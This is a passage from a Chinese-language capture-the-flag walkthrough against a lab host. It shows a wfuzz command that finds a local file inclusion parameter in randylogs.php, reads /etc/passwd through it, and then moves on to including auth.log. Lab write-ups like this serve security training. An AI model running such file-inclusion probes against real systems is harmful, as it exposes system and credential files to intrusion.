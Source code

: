         `archives`存在`randylogs.php`
        
        `uploads` 回到跟`index`一样
        
3. 发现`randylogs.php` 根据提示关于日志的，应该会有`LFI` ，使用`wfuzz`测试一下
    
    ```python
    wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hh 0  http://192.168.56.4/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://192.168.56.4/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
    Total requests: 951
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                                                                          
    =====================================================================
    
    000000341:   200        48 L     85 W       2832 Ch     "file"                                                                                                                                           
    
    Total time: 1.095735
    Processed Requests: 951
    Filtered Requests: 950
    Requests/sec.: 867.9099
    ```
    
    发现参数`file` ，在浏览器访问，成功包含`/etc/passwd`
    
    ![image.png](image%2085.png)
    
4. 根据提示`Change permissions for auth log` 身份认证日志的权限，尝试包含`auth.log`
    
    ![image.png](image%2086.png)
    